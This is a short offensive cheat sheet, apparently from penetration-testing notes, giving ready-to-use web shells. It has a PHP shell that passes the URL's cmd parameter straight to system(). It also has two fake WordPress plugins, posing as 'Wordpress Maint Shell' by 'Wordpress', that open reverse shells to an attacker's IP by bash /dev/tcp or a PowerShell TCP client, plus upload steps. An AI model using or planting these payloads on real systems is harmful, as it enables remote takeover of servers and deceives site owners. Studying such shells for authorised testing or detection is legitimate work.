 title: Web Shells

# Simple PHP

Simple PHP webshell, add `?cmd={command}` to the URL.

```php
<?php
echo "You entered <pre>" . $_GET['cmd'];
system($_GET['cmd']);
?>
```

# Wordpress

You can abuse the wordpress plugin feature to get a reverse shell if you have access to install plugins.

* Linux Host
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec(\"/bin/bash -c 'bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1'\")
?>
```

* Windows Host ( powershell )
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('{IP-ADDRESS}',{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'");
?>
```
Save the above to a file, compress into a `.zip` archive and then upload & activate.